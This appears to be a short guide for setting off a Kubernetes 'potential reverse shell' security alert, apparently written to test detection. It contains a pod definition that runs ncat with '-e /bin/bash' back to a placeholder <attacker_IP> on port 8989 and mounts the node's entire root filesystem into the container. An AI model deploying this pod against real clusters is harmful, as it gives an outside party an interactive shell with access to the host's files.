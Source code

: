 # Detection of a potential reverse shell

Analysis of processes running within a container or directly on a Kubernetes node, has detected a potential reverse shell. These are used to get a compromised machine to call back into a machine an attacker owns

This is categorized as a Medium severy alert

This alert maps to Exfiltration and Explotation with MITRE ATT&CK® tactics

Create a pod definition file as this:

Substitue the <attacker_IP> with your own one

This pod will issue the following command /usr/local/bin/ncat <attacker_IP> 8989 -e /bin/bash


```
apiVersion: v1
kind: Pod
metadata:
  name: ncat-reverse-shell-pod
  labels:
    app: ncat
spec:
  containers:
  - name: ncat-reverse-shell
    image: raesene/ncat
    volumeMounts:
    - mountPath: /host
      name: hostvolume
    args: ['<attacker_IP>', '8989', '-e', '/bin/bash']
  volumes:
  - name: hostvolume
    hostPath:
      path: /
      type: Directory
```

![reverse-shell](/images/reverse-shell.png)